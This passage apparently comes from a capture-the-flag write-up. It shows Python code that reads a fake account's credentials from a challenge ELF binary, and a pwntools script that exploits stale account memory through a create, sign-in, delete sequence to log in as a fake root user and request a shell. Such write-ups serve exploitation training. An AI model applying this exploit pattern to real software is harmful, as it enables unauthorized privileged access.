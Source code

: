 ```python title="script.py"
# second field (offset 8) in user structure is username 8 bytes
fake_account_username = elfexe.read(fake_account_address + 8, 8)
# third field (offset sum of length previous files 8 + 8) in user structure is password 8 bytes
fake_account_password = elfexe.read(fake_account_address + 16, 8)

print(f"fake entry address {hex(fake_root_entry)}")
print(f"{fake_account_id=}")
print(f"fake account username {binascii.hexlify(fake_account_username)}")
print(f"fake account password {binascii.hexlify(fake_account_password)}")
```

```bash title="output.txt"
fake entry address 0x403eb8
fake_account_id=0
fake account username b'0000000000000000'
fake account password b'0000000000000000'
```

**Steps 2-5**: exploit

I used pwntools to automate necessary steps (account creation, sign in, deletion etc...):

```python
io.recvuntil(b"> ")                 # wait till target application is initialized
io.sendline(b'1')                   # enter choice 1 - create account
io.recvuntil(b":")                  # wait username prompt
io.sendline(b"one")                 # enter username
io.recvuntil(b":")                  # wait password prompt
io.sendline(pack(fake_root_entry))  # send address as fake root entry as password (converting into little endian)
io.recvuntil(b"> ")                 # wait prompt
io.sendline(b'2')                   # enter choice 2 - sign in
io.recvuntil(b":")                  # wait username prompt
io.sendline(b"one")                 # enter username
io.recvuntil(b":")                  # wait password prompt
io.sendline(pack(fake_root_entry))  # enter password
io.recvuntil(b"> ")                 # wait prompt
io.sendline(b'3')                   # enter choice 3 - remove account
io.recvuntil(b"> ")                 # wait prompt
io.sendline(b'1')                   # enter choice 1 - create account
io.recvuntil(b":")                  # wait username prompt
io.sendline(b"two")                 # enter username
io.recvuntil(b":")                  # wait password prompt
io.sendline(b"two")                 # enter password
io.recvuntil(b"> ")                 # wait prompt
io.sendline(b'2')                   # enter choice 2 - signup
io.recvuntil(b":")                  # wait username prompt
# enter username and password of our fake user account
# note that both fields are concatenated.
# if we use sendline(fake_account_username) then sendline(fake_account_password)
# then first sendline would append '\n' and password wont match
io.sendline(fake_account_username + fake_account_password)
io.recvuntil(b"> ")                 # wait prompt
io.sendline(b'4')                   # enter choice 4 - Get shell
```
